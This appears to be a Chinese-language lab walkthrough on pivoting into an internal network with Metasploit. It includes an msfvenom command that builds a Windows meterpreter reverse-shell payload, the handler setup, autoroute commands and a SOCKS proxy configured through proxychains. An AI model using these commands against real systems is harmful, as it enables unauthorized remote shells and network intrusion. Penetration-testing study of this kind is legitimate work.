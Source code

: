 # 内网穿透-端口转发

| kali（攻击者） | Win2016（跳板机）                | Win2003（内网靶机） |
| -------------- | -------------------------------- | ------------------- |
| 192.168.114.40 | 192.168.114.79<br />10.10.10.130 | 10.10.10.129        |
|                | 已经被kali获取shell              | 有web服务           |

代理就是在我们的vps开启了一个socks代理，监听vps本地端口，然后再通过这个端口将流量转给msf，msf转发给路由，所以能将流量直接带入到内网中

1、获取win2016的shell

```shell
# 利用msf生成木马，放到win2016
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.114.40 LPORT=4444 -f exe -o shell.exe

# 进入msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.114.40
set lport 4444
run

# 运行win2016上的木马，获取shell

```

2、路由配置

```shell
# 在msf中添加路由
# 查看内网相关信息
run get_local_subnets

# 添加自动路由
run post/multi/manage/autoroute

# 配置静态路由
run autoroute -s 10.10.10.0/24

# 查看路由表
run autoroute -p

# 将sessions放入后台运行
background
```

3、代理转发

```shell
# 如果是msf6，使用代理模板为：
use auxiliary/server/socks_proxy

# 如果是msf5，使用代理模板为：
use auxiliary/server/socks4a
# 或者
use auxiliary/server/socks5


# 1、配置代理，我用的msf6
use auxiliary/server/socks_proxy
show options
set srvport 1080
set srvhost 127.0.0.1
run

# 2、修改代理配置文件，看具体文件
vim /etc/proxychains4.conf
```

![image-20230304102912196](https://s2.loli.net/2023/03/04/YnGbetOQvNaclAV.png)

```shell
# 3、设置浏览器代理配置
# 直接访问内网主机
http://10.10.10.129/
```

![image-20230304105242438](https://s2.loli.net/2023/03/04/oAtdqyrSZV2mLXG.png)

![image-20230304105343632](https://s2.loli.net/2023/03/04/v1nk4BmeaduZKGr.png)